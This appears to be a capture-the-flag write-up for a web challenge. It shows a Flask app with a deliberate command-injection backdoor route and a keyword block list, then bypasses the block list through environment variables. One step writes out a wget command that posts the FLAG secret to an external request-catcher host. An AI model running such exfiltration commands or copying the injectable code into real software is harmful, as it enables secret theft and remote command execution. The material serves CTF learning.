

# Cig 2
### Web - Medium

- This one is a bit harder! they have blocked all built-in linux commands `/blocked`so we can't use these in `/backdoor` but!
- 

<details>
<summary>Reveal Code</summary>
    
```python

from flask import Flask, render_template, request, redirect
import subprocess
import os
from string import printable

app = Flask(\_\_name\_\_)

blocked = open("blocked.txt", "r").read().split("\\n")


@app.route("/blocked", methods=\["GET"\])
def getBlocked():
    return render\_template("hello.html", source\_code="\\n".join(blocked))


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            os.system(f'echo "{b}" > /tmp/found')
            return redirect("/")
    os.system(f'echo "{cmd}" > /tmp/log.txt')
    output = os.system(f'bash -c "{cmd}"')
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5001))
    app.run(debug=False, host="0.0.0.0", port=port)

```
</details>

- 
- Here is the trick! using **env vars** we can assign env vars to texts/commands we like so we can bypass this 
- Now we will use `/setenv` but we can also assign 1 var to our full command!
- Step 1: `/setenv?var=v1&value=wget --post-data=$(echo $FLAG) ayham.requestcatcher.com`
- Step 2: `/backdoor?cmd=${v1}`
- EZ!
- 
- However it took me a while bec I actually splitted my cmd into multiple env vars and failed at some and forgot some logic but here is the simplest solution!
- VOILA!!!
